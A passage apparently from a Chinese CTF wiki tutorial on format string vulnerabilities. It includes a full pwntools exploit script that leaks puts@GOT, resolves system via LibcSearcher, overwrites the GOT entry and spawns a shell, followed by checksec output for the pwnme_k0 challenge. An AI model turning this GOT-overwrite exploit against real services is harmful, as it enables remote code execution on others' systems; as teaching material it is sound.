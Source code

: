 ```python

tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)


## password
def password():
    sh.recvuntil('Name (ftp.hacker.server:Rainism):')
    sh.sendline(name)


##password
password()
## get the addr of puts
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

## get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

## modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
##gdb.attach(sh)
sh.sendline('/bin/sh;')

## system('/bin/sh')
show_dir()
sh.interactive()
```



**劫持 返回地址**

利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址



例题  [三个白帽 - pwnme_k0](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/%E4%B8%89%E4%B8%AA%E7%99%BD%E5%B8%BD-pwnme_k0)

```
checksec pwnme_k0 
[*] '/home/toor/Desktop/pwnme_k0'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
NX relro 开启
```
